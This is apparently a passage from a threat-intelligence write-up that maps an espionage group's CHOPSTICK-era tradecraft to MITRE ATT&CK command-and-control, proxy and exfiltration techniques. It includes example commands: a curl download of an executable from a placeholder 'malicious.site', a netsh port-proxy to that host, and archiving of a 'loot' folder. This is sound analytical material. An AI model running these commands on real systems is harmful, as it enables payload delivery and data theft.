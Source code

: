 - CHOPSTICK implant using blend of HTTP/HTTPS
- Example:
```bash
curl http://malicious.site/update -o update.exe
```

### T1071.003 - Email Protocols (IMAP/POP3/SMTP)

- Self-registered Google Mail accounts for C2

### T1090.001 - Internal Proxy

```cmd
netsh interface portproxy add v4tov4 listenport=8080 connectport=80 connectaddress=malicious.site
```

### T1090.002 - External Proxy

- Compromised Georgian military email server as hop point

### T1090.003 - Multi-hop Proxy

- Routing traffic through Tor and commercial VPNs

### T1102.002 - Web Service (Google Drive)

- C2 communications via Google Drive

## Exfiltration (TA0010)

### T1560.001 - Archive Collected Data

```powershell
Compress-Archive -Path C:\\loot -DestinationPath C:\\archive.zip
```
- Password-protected archives using WinRAR

### T1048.002 - Exfiltration Over HTTPS

- Upload of staged OWA archives via HTTPS

### T1030 - Data Transfer Size Limits

- Splitting archives into <1MB chunks

### T1567 - Exfiltration Over Web Service

- Data exfiltration via Google Drive

## Impact (TA0040)

### T1498 - Network Denial of Service

